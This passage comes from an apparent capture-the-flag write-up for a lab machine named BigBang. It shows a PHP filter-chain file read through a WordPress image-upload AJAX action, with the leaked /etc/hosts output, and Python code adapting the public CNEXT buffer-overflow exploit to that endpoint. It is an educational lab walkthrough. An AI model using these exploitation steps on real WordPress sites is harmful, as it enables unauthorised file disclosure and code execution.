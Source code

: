 After sending that, the resulting image has six more characters of prefix (not exactly sure why “MM” was added after “0xdf”, but filters are weird), and six less characters of the file:

```

oxdf@hacky$ curl http://blog.bigbang.htb/wp-content/uploads/2025/01/1-8.png -o-
GIF89a0xdfMM127.0.0.1   localhost
::1     localhost ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
172.17.0.3      b

```

This is worth keeping in mind for this file read that I seem to lose the trailing n characters, where n is the number of characters prepended.

I’ll also note that if the filename changes but the prefix doesn’t, the chain from `wrapwrap` doesn’t change either, other than the end where it says `source=[filename]`. This saves me from having to run it over and over.

#### Modify Exploit

There’s a POC skeleton script [here](https://raw.githubusercontent.com/ambionics/cnext-exploits/refs/heads/main/cnext-exploit.py). I’ll download this and save it as `exploit.py`. It’s using the Python [ten](https://github.com/cfreal/ten) exploitation framework, which uses classes and decorators to define the exploit.

In theory, I only need to update the `Remote` class to handle uploading and reading files in the `send` and `download` functions:

![image-20250131113812442](/img/image-20250131113812442.png)

It’s not super clear to me why these two functions are split up, when really the requirement is to read a file from the system. It looks like `send` is only used in `download` and to send final payload that triggers the buffer overflow (without actually reading back the response).

I’ll update them to match what is present on BigBang:

```

    def send(self, path: str) -> Response:
        """Sends given `path` to the HTTP server. Returns the response.
        """
        url = f"{self.url}/wp-admin/admin-ajax.php"
        data = {"action": "upload_image_from_url", "url": tf.qs.encode(path), "id": 1, "accepted_files": "image/gif"}
        return self.session.post(url, data=data)
        
    def download(self, path: str) -> bytes:
        """Returns the contents of a remote file.
        """
```